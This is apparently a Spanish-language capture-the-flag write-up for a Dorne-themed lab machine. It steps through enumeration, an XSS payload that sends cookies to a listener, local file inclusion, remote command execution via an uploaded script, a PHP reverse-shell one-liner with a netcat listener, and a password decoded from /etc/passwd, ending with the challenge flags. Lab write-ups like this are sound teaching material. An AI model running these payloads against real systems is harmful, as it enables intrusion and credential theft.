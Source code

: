 
# Reto 4

## Paso 1

Luego de configurar la maquina e iniciarla esta mostraba la ip de la misma al cual le hicimos un escaneo con nmap.

Encontramos el puerto 80 con un servidor apache y ssh en el 22.

## Paso 2

con wfuzz buscamos rutas y encontramos las siguientes:

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================
                        
000004946:   200        19 L     66 W       665 Ch      "comentarios"                        
000009563:   200        31 L     118 W      964 Ch      "index"                              
000017880:   200        0 L      5 W        37 Ch       "test"
```

la ruta test no tenia nada interesante, pero comentarios e index si:

index.php

![Captura de pantalla -2024-05-20 21-23-52](https://github.com/halexys/UciTeam1/assets/72656657/ee703efd-eca9-4325-b369-1836d4c5be6c)


comentarios.php

![Captura de pantalla -2024-05-20 21-27-34](https://github.com/halexys/UciTeam1/assets/72656657/c1b5bf4e-53b5-4df3-87f0-b2547c2055dc)


Este ultimo tenia tres cosas interesantes.

- Establecia una cookie user con un valor aleatorio y la mostraba en el texto "Tu llave es:"
- un enlace "http://palaces.dorne.got"
- un formulario con un textarea para enviar un "comentario"

&nbsp;

## Paso 3

Analizamos la web y encontramos q era vulnerable a XSS, enviando una etiqueta html con un pequeño codigo javascript en el comentario

&nbsp;

el cual enviaba a un sevidor q poniamos en escucha con python las cookies.

```html
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```

lo q devolvio:

![Captura de pantalla -2024-05-20 21-44-17](https://github.com/halexys/UciTeam1/assets/72656657/4ea0930f-e349-4171-a296-aea0a3e52cf0)


de aqui la cookie interesante era user=Unbowed,Unbent,Unbroken

## Paso 4

tras un rato de intentar cosas pusimos la url q aparecia en esta pagina en /etc/hosts

y abrio otra pagina:

![Captura de pantalla -2024-05-20 21-53-32](https://github.com/halexys/UciTeam1/assets/72656657/09259921-848e-4765-ad44-8b8c292e5f59)


no demoramos mucho en darnos cuenta q teniamos q establecer la cokie q debolvio el XSS y nos permitio "Acceso" y la primera flag:

flag: flag{j4rd1n-Alc4z4r}

![Captura de pantalla -2024-05-20 21-55-52](https://github.com/halexys/UciTeam1/assets/72656657/f088ff70-9224-4955-992c-cf477c44067b)


junto con la flag otra url la cual agregamos a host : http://don-pedro.dorne.got

## ![Captura de pantalla -2024-05-20 22-05-16](https://github.com/halexys/UciTeam1/assets/72656657/c9f8e020-79c5-434a-b5bd-ff4458cc681b)


&nbsp;

### PASO 5

al darle en cambiar idioma salio lo siguiente al final de la pagina:

![Captura de pantalla -2024-05-20 22-10-27](https://github.com/halexys/UciTeam1/assets/72656657/5ee2f7b1-30a6-451d-99bd-eab212ed410c)


Era bastante obvio el LFI(loca file inclusion) ya q al principio de cada linea estaban las letras LFI y directamente probamos con file=flag.txt (el texto era muy obvio) y luego con access.txt

![Captura de pantalla -2024-05-20 22-14-19](https://github.com/halexys/UciTeam1/assets/72656657/1bdb0ae5-194d-4c20-9ac1-6e22e8749224)


![Captura de pantalla -2024-05-20 22-15-46](https://github.com/halexys/UciTeam1/assets/72656657/d8035307-fe5c-41bf-8a1f-3da493dcd2e2)


una nueva url en el acces.txt y un usuario y contraseña?

![Captura de pantalla -2024-05-20 22-18-16](https://github.com/halexys/UciTeam1/assets/72656657/426ce299-4407-4717-9019-4c8c481a74e5)


al ingresar el usario y la contraseña sale lo siguiente:

![Captura de pantalla -2024-05-20 22-19-33](https://github.com/halexys/UciTeam1/assets/72656657/9949bcdc-79f8-4721-9d09-951114beb4ec)


## Paso 6

probamos subir un archivo cualquiera:

![Captura de pantalla -2024-05-20 22-22-06](https://github.com/halexys/UciTeam1/assets/72656657/6bf241d5-a8aa-47c0-80db-c0bdc997bdb1)


como dice q solo funcionara secret.sh probamos ejecutar un comando simple de bash

```bash
ls
```

y probamos con lfi en la ruta del palacio de don pedro:

![Captura de pantalla -2024-05-20 22-27-05](https://github.com/halexys/UciTeam1/assets/72656657/cb5e3da1-754e-42ae-91a8-99161e43b4ee)


&nbsp;

Funciona la ejecucion remota de comandos, y probamos una revershell en php

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

y ponemos netcat en escucha:

```bash
nc -lnvp PORT
```

![Captura de pantalla -2024-05-20 22-32-17](https://github.com/halexys/UciTeam1/assets/72656657/4a2b0472-ab3e-487c-9e7d-cbb4a87ffcb3)

con la revershell navegamos por algunos directorios y encontros la 3ra flag en /home/www-data

![Captura de pantalla -2024-05-20 22-36-29](https://github.com/halexys/UciTeam1/assets/72656657/2c5df24c-faea-45bf-8cf6-cd45ed186728)



en /etc/passwd estaba el usuario doran y la contraseña en base64

```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```

```
doran
D0r4n2024*
```

y luego accedimos por ssh

## Paso 7

dentro del directorio home del usuario doran habia lo siguiente:

```bash
doran@jnic2024:~$ ls
flag.txt  reto-final.txt
```

```bash
doran@jnic2024:~$ cat flag.txt 
No me fío de tu palabra, si no puedo confiar en ti, no podré entregarte la última flag
doran@jnic2024:~$
```

```bash
doran@jnic2024:~$ cat reto-final.txt 
Ya no tengo en nadie en quien confiar.

Voy a hacerte una ultima pregunta muy importante y necesito que me respondas con la verdad.

Dependiendo de tu respuesta, te dare o no la ultima flag.

Siento que alguien cercano a la familia, me va a traicionar, no se quien, pero necesito saberlo antes que sea tarde....

Podras decirme su nombre?: 

Respuesta: *******

Solo completa el nombre y te dire mi decision en el archivo flag.txt
doran@jnic2024:~$
```

Luego de googlear quien mato an doran martel encontramos q fue Ellaria y probamos reempalzar los asteriscos por Ellaria:

```bash
doran@jnic2024:~$ cat flag.txt 
Sabía que podía confiar en ti, antes de ser traicionado te entrego la última flag, cuida de Dorne!
flag{0=;;;D0rn3;;;>}
Felicidades!!! Reto D0rn3 Finalizado - Powered by j4ck 
doran@jnic2024:~$
```

&nbsp;

# FIN
